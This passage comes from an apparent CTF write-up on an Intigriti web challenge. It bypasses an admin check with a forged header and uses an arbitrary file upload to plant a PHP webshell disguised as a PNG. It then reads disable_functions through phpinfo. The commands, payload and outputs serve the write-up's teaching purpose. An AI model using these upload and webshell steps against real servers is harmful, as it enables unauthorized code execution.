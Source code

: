 ```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|14:49:02(HKT)]
└> curl -H "is-shoppix-admin: true" https://challenge-1025.intigriti.io/upload_shoppix_images.php
<!DOCTYPE html>
<html lang="en">
<head>
[...]
```

Let's exploit the arbitrary file upload vulnerability to gain RCE!

Again, for our convenience sake, we can use the following Python script to upload our PHP script:

<details><summary markdown="span"><strong>arbitrary_file_upload.py</strong></summary></details>

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|15:14:49(HKT)]
└> python3 arbitrary_file_upload.py 'system("id");'
[*] Webshell payload:
<?php
system("id");
?>
[+] The file has been uploaded to uploads/webshell.png.php
[+] Response text:
GIF89a
<br />
<b>Fatal error</b>:  Uncaught Error: Call to undefined function system() in /var/www/html/uploads/webshell.png.php:3
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/uploads/webshell.png.php</b> on line <b>3</b><br />
```

Wait a minute, function [`system`](https://www.php.net/manual/en/function.system.php) is **undefined**?

In PHP configuration, it is possible to disable a list of functions in [directive `disable_functions`](https://www.php.net/manual/en/ini.core.php#ini.disable-functions). By default, this directive's value is an empty string, which means no functions are disabled.

To check the application's directive `disable_functions`'s value, we can read the PHP configuration file, or simply call function [`phpinfo`](https://www.php.net/manual/en/function.phpinfo.php) to display the config:

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|15:19:02(HKT)]
└> python3 arbitrary_file_upload.py 'phpinfo();' | grep 'disable_functions'
<tr><td class="e">disable_functions</td><td class="v">system,passthru,shell_exec,popen,exec</td><td class="v">system,passthru,shell_exec,popen,exec</td></tr>
```

As we can see, the following functions are disabled:
- `system`
- `passthru`
- `shell_exec`
- `popen`
- `exec`
